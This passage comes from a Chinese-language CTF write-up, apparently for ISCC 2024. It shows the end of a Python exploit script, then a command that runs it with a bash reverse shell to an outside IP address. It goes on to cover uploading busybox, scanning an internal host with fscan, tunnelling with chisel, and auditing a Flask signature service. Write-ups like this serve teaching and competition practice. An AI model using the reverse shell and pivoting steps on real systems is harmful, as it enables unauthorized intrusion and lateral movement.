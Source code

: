```python
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    req = requests.request("POST", url, data=payload, cookies=cookies, headers=headers)
    html = req.text
    soup = BeautifulSoup(html, "html.parser")
    result = soup.find("div", class_="result-box").text
    return result

if __name__ == "__main__":
    main()

```

![image-20240601222012189](https://img.crzliang.cn/img/202406012237588.png)

命令: python main.py "bash -c 'bash -i >& /dev/tcp/47.94.237.26/8899 0>&1'"

![img](https://img.crzliang.cn/img/202406012237589.jpg)

得到的shell很多命令都没有，需要上传busybox进行操作

![img](https://img.crzliang.cn/img/202406012237590.jpg)

且daemon用户只有allPeple目录的权限

![img](https://img.crzliang.cn/img/202406012237591.jpg)

利用cat进行传输busybox

![img](https://img.crzliang.cn/img/202406012237592.jpg)

结合题目以及使用arp命令发现一个新的机器：secret.host.iscc2024_default (172.19.0.3)

![img](https://img.crzliang.cn/img/202406012237593.jpg)

用同样的方法上传fscan，扫出一个80端口

![img](https://img.crzliang.cn/img/202406012237594.jpg)

因为靶机上工具有限，所以利用chisel搭个隧道出来，然后使用dirsearch扫目录

![img](https://img.crzliang.cn/img/202406012237595.jpg)

扫出一个flag目录

![img](https://img.crzliang.cn/img/202406012237597.jpg)

## 代码审计

进行代码审计，得到：是一个flask服务，有两个接口：/geneSign和/De1ta

/geneSign接收一个param参数，并设置action=“scan”，然后使用key与这两个参数拼接在一起计算md5，作为签名返回。

在Exec()方法中首先使用action、param重新计算签名，与sign值对比，从而验证签名。然后判断action参数中是否有字符串”scan”，若有则将param作为文件名读取文件内容，并将读取的内容写入“已存在的文件”中。接着判断action中是否有字符串”read”，若有则从“已存在的文件”中读取内容，并且作为返回数据。
